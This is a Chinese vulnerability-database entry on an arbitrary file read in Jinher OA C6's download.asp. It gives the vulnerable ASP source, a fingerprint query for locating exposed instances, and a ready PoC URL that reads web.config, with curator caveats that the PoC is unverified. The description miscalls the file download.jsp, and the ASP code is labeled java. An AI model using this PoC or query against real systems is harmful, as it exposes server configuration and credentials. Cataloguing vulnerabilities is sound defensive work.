


# 金和C6 download.asp filename读取

## 条目说明

- 对象与具体问题：金和C6；download.asp filename读取
- 版本、配置及部署条件：未知ASP部署
- 认证与权限前提：未明确
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- MapPath限制及权限需说明，不能断言全服务器任意文件
- 重复POC，缺build与修复

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

金和OA C6 download.jsp文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

### 漏洞影响

```
金和OA
```

### 网络测绘

```
app="Jinher-OA"
```

### 漏洞复现

登录页面如下


漏洞文件为 download.asp

```java
<%       
	Response.Buffer     =     true       
	Response.Clear       
	      
	dim     url       
	Dim     fso,fl,flsize       
	dim     Dname       
	Dim     objStream,ContentType,flName,isre,url1       
	'*********************************************调用时传入的下载文件名       
	Dname=trim(request("filename"))       
	'******************************************************************       
	If     Dname<>""     Then       
	'******************************下载文件存放的服务端目录       
							url=server.MapPath(Dname)       
							'url=server.MapPath("./")&"\Jhsoft.Web.module\testbill\dj"&Dname     '这边做了一下改动By   Fanshui   
	'***************************************************       
	End     If       
	'Response.write   url   
	'response.end   

	Set     fso=Server.CreateObject("Scripting.FileSystemObject")       
	Set     fl=fso.getfile(url)       
	flsize=fl.size       
	flName=fl.name       
	Set     fl=Nothing       
	Set     fso=Nothing     
	'Response.write flName
	'Response.write flsize
%>    


<%       
    Set		objStream     =     Server.CreateObject("ADODB.Stream")
	'objStream.Mode 　  = 　  3 　
	objStream.Type     =     1
    objStream.Open        
    objStream.LoadFromFile     url       


    Select     Case     lcase(Right(flName,     4))       
        Case     ".asf"       
                                ContentType     =     "video/x-ms-asf"       
        Case     ".avi"       
                                ContentType     =     "video/avi"       
        Case     ".doc"       
                                ContentType     =     "application/msword"       
        Case     ".zip"       
                                ContentType     =     "application/zip"       
        Case     ".xls"       
                                ContentType     =     "application/vnd.ms-excel"       
        Case     ".gif"       
                                ContentType     =     "image/gif"       
        Case     ".jpg",     "jpeg"       
                                ContentType     =     "image/jpeg"       
        Case     ".wav"       
                                ContentType     =     "audio/wav"       
        Case     ".mp3"       
                                ContentType     =     "audio/mpeg3"       
        Case     ".mpg",     "mpeg"       
                                ContentType     =     "video/mpeg"       
        Case     ".rtf"       
                                ContentType     =     "application/rtf"       
        Case     ".htm",     "html"       
                                ContentType     =     "text/html"       
        Case     ".txt"       
                                ContentType     =     "text/plain"       
        Case     Else       
                                ContentType     =     "application/octet-stream"       
    End     Select       


	Response.AddHeader     "Content-Disposition",     "attachment;     filename="     &     flName       
    Response.AddHeader     "Content-Length",     flsize       

    Response.Charset     =     "UTF-8"       
    Response.ContentType     =     ContentType   

	Response.BinaryWrite     objStream.Read       
    Response.Flush       
    response.Clear()       
    objStream.Close       
    Set     objStream     =     Nothing       

%>
```

请求的POC为

```plain
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```



读取 web.config

```plain
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
